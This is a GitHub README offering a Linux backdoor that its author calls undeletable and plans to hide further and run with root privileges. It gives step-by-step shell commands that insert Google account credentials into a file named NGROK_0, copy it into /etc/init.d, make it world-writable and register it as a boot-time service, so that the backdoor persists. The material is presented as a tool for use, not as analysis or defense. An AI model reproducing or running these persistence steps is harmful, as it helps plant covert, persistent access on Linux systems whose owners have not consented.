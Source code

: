 # linux_backdoor
linux backdoor , have some fanctionalites , its undeletble , i am still working to hide it and gave it root previlages
after you download it you do this commands:
nano NGROK_0
#change MAIL and PASSWD in line 23 , 24 , to your google email and password 
sudo mv NGROK_0 /etc/init.d/
sudo chown root:root /etc/init.d/NGROK_0
sudo chmod 777 /etc/init.d/NGROK_0
sudo update-rc.d  NGROK_0 defaults
sudo update-rc.d  NGROK_0 enable
sudo systemctl daemon-reload
sudo service start  NGROK_0
